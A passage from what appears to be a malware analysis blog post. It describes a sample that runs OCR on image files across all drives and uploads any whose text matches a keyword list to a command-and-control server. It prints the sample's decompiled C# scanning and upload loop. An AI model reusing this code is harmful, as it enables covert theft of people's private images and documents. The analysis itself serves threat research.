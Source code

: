 In terms of what Tesseract is actually being used for, and the broader capabilities of this sample, I was a little let-down. It appears that it simply looks for `.png`, `.jpeg` or `.jpg` files and checks whether they contain some predefined words stored in `wordlist2`. In case the text is found, a `UploadFile` function is called which sends the file via a form to the target C2. The checking for file contents is done in the following section within the previously mentioned `using (TesseractEngine...` code:

```c#
using (TesseractEngine tesseractEngine = new TesseractEngine(text, "eng", EngineMode.Default))
{
	foreach (DriveInfo driveInfo in DriveInfo.GetDrives())
	{
		try
		{
			List<string> images = new List<string>();
			App.GetFiles(driveInfo.RootDirectory.FullName, delegate(string x)
			{
				if (App.IsImage(x))
				{
					images.Add(x);
				}
			});
			foreach (string text3 in images)
			{
				try
				{
					string text4;
					using (Pix pix = Pix.LoadFromFile(text3))
					{
						using (Page page = tesseractEngine.Process(pix, null))
						{
							text4 = page.GetText().ToLower();
						}
					}
					int num = App.wordlist2.Length;
					for (int j = 0; j < num; j++)
					{
						if (!text3.Contains("editor") && text4.Contains(App.wordlist2[j]))
						{
							list.Add(App.UploadFile(text3));
						}
					}
				}
				catch (Exception)
				{
				}
			}
		}
		catch (Exception)
		{
		}
	}
}
```
